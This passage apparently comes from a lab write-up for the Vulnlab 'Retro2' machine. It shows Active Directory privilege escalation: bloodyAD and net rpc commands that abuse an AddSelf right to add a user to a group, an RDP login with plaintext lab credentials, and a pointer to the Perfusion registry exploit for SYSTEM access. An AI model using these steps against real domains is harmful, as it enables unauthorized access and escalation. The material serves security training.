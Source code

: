 Now, we can add user to group due to `AddSelf` property. Check this [page](https://legacy.thehacker.recipes/a-d/movement/dacl). We can do it using [BloodyAD](https://github.com/CravateRouge/bloodyAD?tab=readme-ov-file) or with `net`:
- `net rpc group addmem 'Services' 'ldapreader' -U 'retro2.vl/ADMWS01$'%'Passw0rd1' -S BLN01.retro2.vl`
We will use `BloodyAD`:
```
└─$ bloodyAD --host bln01.retro2.vl -d retro2.vl -u 'ADMWS01$' -p 'Passw0rd1' add groupMember 'SERVICES' 'ldapreader'
[+] ldapreader added to SERVICES
```
```
└─$ net rpc group members 'Services' -U 'retro2.vl/ADMWS01$'%'Passw0rd1' -S BLN01.retro2.vl 
RETRO2\inventory
RETRO2\ldapreader

```

Now we can `RDP`
```
└─$ xfreerdp /u:'ldapreader' /p:'ppYaVcB5R' /v:BLN01.retro2.vl /d:retro2.vl /dynamic-resolution

```

![](3.png)

## Root
As it was mentioned in the wiki, there are blog posts that we should read:
- https://itm4n.github.io/windows-registry-rpceptmapper-eop/
- https://itm4n.github.io/windows-registry-rpceptmapper-exploit/

We need to build [Perfusion](https://github.com/itm4n/Perfusion). Then upload it and run it

![](4.png)

[https://api.vulnlab.com/api/v1/share?id=9ab35bbf-1daf-40b1-a08f-7a5ffbe9235c](https://api.vulnlab.com/api/v1/share?id=9ab35bbf-1daf-40b1-a08f-7a5ffbe9235c)
